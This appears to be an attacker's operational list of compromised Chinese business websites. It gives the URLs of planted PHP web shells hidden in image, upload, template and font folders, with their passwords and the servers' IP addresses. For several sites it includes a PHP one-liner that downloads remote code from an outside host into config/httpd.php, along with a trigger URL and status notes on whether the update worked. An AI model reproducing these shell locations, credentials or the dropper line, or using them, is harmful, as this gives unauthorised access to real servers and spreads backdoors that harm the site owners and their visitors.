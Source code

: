 https://www.xrkzx.cn/static/upload/image/20220520/m22.php |mmk123 |  47.76.67.195
代码更新：0608 ✅
https://www.xrkzx.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.xrkzx.cn/config/httpd.php?d=up

https://www.uni-trend.com.cn/template/default/css/13.php |mmk123 |rsa | 47.107.53.147
https://chengxizixun.com/static/upload/image/20200509/m1.php |mmk123 |  114.55.246.31

https://10392.1000ma.net/static/upload/image/20221113/m1.php |mmk123 |  120.77.152.51
代码更新：0608  无法访问
https://10392.1000ma.net/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://10392.1000ma.net/config/httpd.php?d=up

https://www.szbszx.com/static/upload/image/20210318/m1.php |mmk123 |  47.112.240.242
http://www.zyfuxin.com/dd.php |dama |大马 | 101.36.223.186

http://www.xlongfa.com/static/upload/image/20240321/m1.php |mmk123 |  47.97.115.119
代码更新：0608 ✅
http://www.xlongfa.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xlongfa.com/config/httpd.php?d=up

http://res.qiremanhua.com/static/upload/image/20211222/m1.php |mmk123 |  47.98.131.153
代码更新：0608  500
http://res.qiremanhua.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://res.qiremanhua.com/config/httpd.php?d=up

https://www.lanjingjieneng.com//template/default/html/m1.php |mmk123 |  47.100.115.85
http://www.hhpaper.com.cn/static/upload/image/20240429/m1.php |mmk123 |  47.56.193.53
http://www.btkes.com/dd.php |dd |大马 | 118.190.103.110
http://www.hbyunfei.com/static/upload/file/20231027/m1.php |mmk123 |RSA | 129.227.60.171
http://en.sdygsteel.com/template/default/font-awesome-4.7.0/fonts/m1.php |mmk123 |  211.149.190.167
https://szjuhuicheng.com/template/default/m1.php |mmk123 |  8.218.174.32
http://www.jimoym.cn:8002/static/upload/image/20240313/m1.php |mmk123 
http://www.zbguanlong.com/static/upload/image/20180411/m1.php |mmk123 |  211.149.190.167
http://web.ofkj.com/static/upload/image/20231023/m1.php |mmk123 |  47.101.35.255
https://www.nxflag.com/static/upload/image/20230913/m1.php |mmk123 |  47.76.69.82
http://en.flyger.cn/data/config.cache.inc.php |mmk123 |  101.132.249.167
https://www.greenowner.net/skin/img/testimonials/m1.php |mmk123 |  185.216.119.92
https://nxflag.com/template/default/font-awesome-4.7.0/fonts/m1.php |mmk123 |  47.76.69.82
https://greenowner.net/skin/img/slideshow/m1.php |mmk123 |  185.216.119.92
